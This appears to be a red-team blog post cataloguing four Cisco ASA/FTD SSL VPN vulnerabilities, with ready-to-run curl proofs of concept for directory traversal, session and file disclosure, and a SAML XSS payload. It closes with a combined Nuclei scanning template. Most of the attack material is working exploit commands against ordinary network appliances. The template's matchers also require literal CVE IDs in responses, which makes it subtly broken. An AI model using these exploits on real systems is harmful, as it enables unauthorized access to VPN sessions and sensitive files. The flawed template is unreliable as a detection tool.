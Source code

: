 ```yaml
---
layout: post
title: Overview Cisco SSL VPN Service
categories: [Pentesting,RedTeam, 2G ]
---
```

Analysis of some CVEs present for this software.

## Common CVE's


### CVE-2018-0296
A vulnerability in the web interface of the Cisco Adaptive Security Appliance (ASA) could allow an unauthenticated, remote attacker to cause an affected device to reload unexpectedly, resulting in a denial of service (DoS) condition. It is also possible on certain software releases that the ASA will not reload, but an attacker could view sensitive system information without authentication by using directory traversal techniques

Check if the endpoint is vulnerable 
```
curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

POC
```
curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
curl -i -k "https://URL/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is

``` 

Reference:
- [HackerOne](https://hackerone.com/reports/696400)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2018-0296)
- [Github Poc](https://github.com/yassineaboukir/CVE-2018-0296)

### CVE-2020-3580 - XXS 
The vulnerabilities are due to insufficient validation of user-supplied input by the web services interface of an affected device. An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link. A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information.

VIA POST 
```
 /+CSCOE+/saml/sp/acs?tgname=a
SAMLResponse="><svg/onload=alert('xss')>
```
Reference:
- [HackerOne](https://hackerone.com/reports/1243650)


### CVE-2020-3187 
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system.


Check if the endpoint is vulnerable 
```
/+CSCOE+/session_password.html -> 200 = Vulnerable
/+CSCOE+/session_password.html -> 404 = Patched
```
Exploit 
```
curl -H “Cookie: token=../+CSCOU+/csco_logo.gif” https://█████/+CSCOE+/session_password.html
```
Reference:
- [HackerOne](https://hackerone.com/reports/987090)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3187)

### CVE-2020-3452
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

POC
```
https://URL/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
```
OR 
```
curl -i -s -k -X $'GET' \
    -H $'Host: █████.mil' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://█████.mil/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'webvpnlogin=1; webvpnLang=en' \
    $'https://███.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
```
Reference: 
- [HackerOne](https://hackerone.com/reports/943717)
- [HackerOne](https://hackerone.com/reports/924407)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3452)

## Nuclei Template

```
id: cisco-multiple-cves

info:
  name: Cisco ASA/FTD Multiple CVEs Exploit
  author: security-researcher
  severity: critical
  description: |
    Este template testa múltiplas vulnerabilidades no Cisco ASA e FTD, incluindo Local File Inclusion (LFI), Directory Traversal e Cross-Site Scripting (XSS). As CVEs incluídas são CVE-2018-0296, CVE-2020-3580, CVE-2020-3187 e CVE-2020-3452.
  tags: cve,cisco,asa,ftd,lfi,xss,dir-traversal

http:
  - method: GET
    path:
      - "{{BaseURL}}/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions"
    headers:
      Accept-Encoding: deflate
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "///sessions"
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2018-0296"

  - method: POST
    path:
      - "/+CSCOE+/saml/sp/acs?tgname=a"
    body: "SAMLResponse=%22%3E%3Csvg%2Fonload%3Dalert%28document.domain%29%3E"
    headers:
      Cookie: webvpnlogin=1; webvpnLang=en
      User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
      Accept-Language: en-GB,en;q=0.5
      Accept-Encoding: gzip, deflate
      Content-Type: application/x-www-form-urlencoded
      Upgrade-Insecure-Requests: 1
      Connection: close
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "<svg/onload=alert(document.domain)>"
        part: body
      - type: word
        words:
          - "CVE-2020-3580"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOE+/session_password.html"
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - webvpn
          - Webvpn
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2020-3187"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
      - "{{BaseURL}}/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua"
    matchers:
      - type: word
        words:
          - "INTERNAL_PASSWORD_ENABLED"
          - "CONF_VIRTUAL_KEYBOARD"
        condition: and
      - type: word
        words:
          - "CVE-2020-3452"
```
Based on:
- [CVE-2018-0296.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-0296.yaml)
- [CVE-2020-3580.yaml](https://github.com/projectdiscovery/nuclei-templates/issues/1790)
- [CVE-2020-3187.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3187.yaml)
- [CVE-2020-3452.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3452.yaml)
